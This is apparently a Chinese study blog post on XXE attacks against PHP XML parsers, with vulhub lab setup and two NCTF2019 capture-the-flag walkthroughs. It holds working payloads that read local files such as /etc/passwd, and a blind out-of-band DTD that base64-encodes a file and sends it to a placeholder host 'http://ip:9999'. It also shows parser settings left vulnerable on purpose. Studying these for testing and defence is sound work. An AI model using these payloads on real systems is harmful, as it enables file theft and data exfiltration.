




参考链接:https://xz.aliyun.com/t/3357#toc-0

# 环境配置

因为xxe的利用条件比较苛刻,自己搭环境很有可能会出问题。这里就使用vulhub上的靶机来进行实验

vulhub搭建: https://vulhub.org/#/docs/install-docker-one-click/

下载链接: https://codeload.github.com/vulhub/vulhub/zip/master

具体搭建流程: https://www.77169.net/html/264526.html

xxe漏洞的产生与php版本无关,主要是libxml的拓展。2.9以后默认不使用外部实体,导致xxe几乎灭绝

libxml_disable_entity_loader(false);  //如果为true,则无法导入外部实体,防御一半也是这样防御的

simplexml_load_string($xml, ，SimpleXMLElement', LIBXML_NOENT); //需要加LIBXML_NOENT参数,不然无法导入外部实体。

但是我在我的服务器上这样配置了还是无法导入外部实体，应该还有一些配置会影响,  本应来说xxe应该很少见了,但是护网面试的时候面试官还是问了我是否学过xxe,所以还是学习一下。

# 工具介绍

 网上已经有可以自动检测XXE漏洞的开源工具:xxeinjector

使用介绍: https://www.freebuf.com/sectool/170971.html

# XML函数

loadXML：

```php
<?php
$data = file_get_contents('php://input');

$dom = new DOMDocument();
$dom->loadXML($data);

print_r($dom);
```

SimpleXMLElement:

```PHP
<?php
$data = file_get_contents('php://input');
$xml = new SimpleXMLElement($data);

echo $xml->name;
```

simplexml_load_string:

```php
<?php
$data = file_get_contents('php://input');
$xml = simplexml_load_string($data);

echo $xml->name;
```

# XXE利用

## 有回显读取本地敏感文件

```PHP
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```

但是如果返回的文件中有一些特殊字符,如<>&""会被当成XML来执行,从而报错,这个时候就需要使用CDATA

payload：

```php
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % goodies SYSTEM "file:///d:/test.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://ip/evil.dtd"> 
%dtd; ]> 

<roottag>&all;</roottag>
```

**evil.dtd**

```php
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY all "%start;%goodies;%end;">
```

## 无回显读取本地敏感文件

payload:

**xml.php**

```
<?php

libxml_disable_entity_loader (false);
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
?>
```

**test.dtd**

```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///D:/test.txt">
<!ENTITY % int "<!ENTITY &#37 send SYSTEM 'http://ip:9999?p=%file;'>">
```

**payload：**

```
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://ip/test.dtd">
%remote;%int;%send;
]>
```

双引号中的%需要编码为&#37

# CTF例题

## [NCTF2019]Fake XML cookbook

进去是一个登录框,F12查看源码

```javascript
function doLogin(){
	var username = $("#username").val();
	var password = $("#password").val();
	if(username == "" || password == ""){
		alert("Please enter the username and password!");
		return;
	}
	
	var data = "<user><username>" + username + "</username><password>" + password + "</password></user>"; 
    $.ajax({
        type: "POST",
        url: "doLogin.php",
        contentType: "application/xml;charset=utf-8",
        data: data,
        dataType: "xml",
        anysc: false,
        success: function (result) {
        	var code = result.getElementsByTagName("code")[0].childNodes[0].nodeValue;
        	var msg = result.getElementsByTagName("msg")[0].childNodes[0].nodeValue;
        	if(code == "0"){
        		$(".msg").text(msg + " login fail!");
        	}else if(code == "1"){
        		$(".msg").text(msg + " login success!");
        	}else{
        		$(".msg").text("error:" + msg);
        	}
        },
        error: function (XMLHttpRequest,textStatus,errorThrown) {
            $(".msg").text(errorThrown + ':' + textStatus);
        }
    }); 
}
```

emm.....JavaScript学得不是很多,看不懂代码,但是可以看出数据是以XML形式传输的,而且数据为:

<user><username>" + username + "</username><password>" + password + "</password></user>

抓包也可以看到我们传输的数据



发现他会返回我们的username的值,后台代码大概是echo $xml->msg 之类的

payload:

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///flag" >]>
<user><username>&xxe;</username><password>2</password></user>
```

## [NCTF2019]True XML cookbook

还是和上一道题一样的,读取一下flag文件,发现报错

<b>Warning</b>:  Cannot modify header information - headers already sent by (output started at /var/www/html/doLogin.php:16) in <b>/var/www/html/doLogin.php</b> on line \<b>31\</b>

去读一下doLogin.php

注意: php文件要用php://filter/read=convert.base64-encode/resource=/var/www/html/doLogin.php

解码一下

```PHP
<?php
/**
* autor: c0ny1
* date: 2018-2-7
*/

$USERNAME = 'admin'; //账号
$PASSWORD = '024b87931a03f738fff6693ce0a78c88'; //密码
$result = null;

libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try{
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$creds = simplexml_import_dom($dom);

	$username = $creds->username;
	$password = $creds->password;

	if($username == $USERNAME && $password == $PASSWORD){
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
	}else{
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
	}	
}catch(Exception $e){
	$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;Cj8
```

然后就不知道怎么办了,因为我向找到为什么报错的原因

就去看wp了,结果wp也没有说是为什么报错,我估计是因为没有那个文件

然后wp中写的查看敏感目录/etc/hosts





找到我们所在的网段,进行内网探测



ssrf作为一种攻击手段被用在了xxe上,所以ssrf可以做的xxe也可以去完成